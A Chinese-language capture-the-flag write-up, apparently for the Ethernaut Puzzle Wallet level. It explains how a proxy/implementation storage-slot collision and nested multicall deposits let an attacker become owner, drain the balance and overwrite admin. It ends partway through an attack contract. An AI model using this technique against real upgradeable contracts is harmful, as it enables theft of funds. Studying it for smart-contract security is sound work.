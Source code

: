 ## 攻击思路

项目采用可升级架构，使用代理调用来实现附加的功能。关卡给的[实例地址](https://rinkeby.etherscan.io/address/0x37B1CCA8C6e0017120c335963A6766cBD6e27BE8)的ABI是`PuzzleWallet`合约的，但是实例地址下的实际合约为`PuzzleProxy`合约，所有非`PuzzleProxy`合约中的函数调用，都通过`fallback`和`receive`函数进行了代理调用，代码如下。

```solidity
function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            // Copy msg.data. We take full control of memory in this inline assembly
            // block because it will not return to Solidity code. We overwrite the
            // Solidity scratch pad at memory position 0.
            calldatacopy(0, 0, calldatasize())

            // Call the implementation.
            // out and outsize are 0 because we don't know the size yet.
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)

            // Copy the returned data.
            returndatacopy(0, 0, returndatasize())

            switch result
            // delegatecall returns 0 on error.
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }
```

其次，因为是代理调用，**每一次函数调用（call）所使用的函数变量都是`PuzzleProxy`合约插槽中的数据。**`PuzzleProxy`合约插槽0中有`pendingAdmin`（address占20字节）变量，插槽1中有`admin`（address占20字节）变量。

关卡的目标是让我们的账户地址成为`PuzzleProxy`合约的`admin`。也就是说要改变`PuzzleProxy`合约插槽1中的数据。

但`PuzzleProxy`合约可以改变插槽1中的数据的操作，有构造函数和`approveNewAdmin`函数，构造参数不能重复调用。`approveNewAdmin`函数只能`admin`账户才能调用，而成为`admin`角色只能通过`approveNewAdmin`函数，死锁失败。

而`PuzzleWallet`合约可以改变插槽1中的数据的操作，即改变`maxBalance`变量（uint256占32位）的值。有构造函数和`setMaxBalance`函数，构造参数不能重复调用。`setMaxBalance`函数函数调用有两个限制，一个是合约实例地址下的ETH余额为0，另一个是调用账户成为白名单用户。

1. 使我们的账户成为白名单用户。要成为白名单用户，只能通过`addToWhitelist`函数，但这个函数只能由owner账户地址调用。owner变量存储在插槽0中，要改变插槽0中的数据，可以通过`PuzzleProxy`合约的`proposeNewAdmin`函数，这样我们的账户地址就会存储在插槽0中，插槽0中的数据在`PuzzleProxy`合约中是`pendingAdmin`变量,在`PuzzleWallet`合约中是`owner`变量。从而我们的账户地址就变成了`PuzzleWallet`合约的`owner`。就可以调用`setMaxBalance`函数。
2. 让合约实例地址下的ETH余额变为0。初始状态下合约实例地址下有0.001个ETH。`PuzzleWallet`合约中可以消耗ETH的操作只有`execute`函数，该函数会执行一次payable的call操作。但`execute`函数要求我们在合约中的余额不小于调用时转的帐。这样就出问题了。每一次调用都需要我们提前给合约打相应的ETH。这样无论如果都不会消耗完合约中的ETH。但合约提供了`multicall`函数，允许我们可以一笔交易调用多次函数，在多次函数调用中`msg.value`d的值时不变的，从未可以达到只转一次钱，但合约中我们的余额增加多次的效果，从而直接消耗完合约中的ETH。但`multicall`函数中不允许我们多次调用`deposit`函数，可`multicall`函数并没有限制多次调用`multicall`函数进行重入攻击。每一次`multicall`函数调用都调用一次`deposit`函数，多调用几次`multicall`函数从而达到多次调用`deposit`函数的效果。

## 攻击流程

```solidity

contract Attack {
    PuzzleProxy target1 = PuzzleProxy(0x37B1CCA8C6e0017120c335963A6766cBD6e27BE8);
    PuzzleWallet target2 = PuzzleWallet(0x37B1CCA8C6e0017120c335963A6766cBD6e27BE8);

    function attack() payable public{
        target1.proposeNewAdmin(address(this));// 让合约成为target2的owner
        target2.addToWhitelist(address(this));// 让合约成为白名单用户

        bytes memory depositData = abi.encodeWithSelector(PuzzleWallet.deposit.selector);
        bytes[] memory depositDatas = new bytes[](1);
        depositDatas[0] = depositData;

```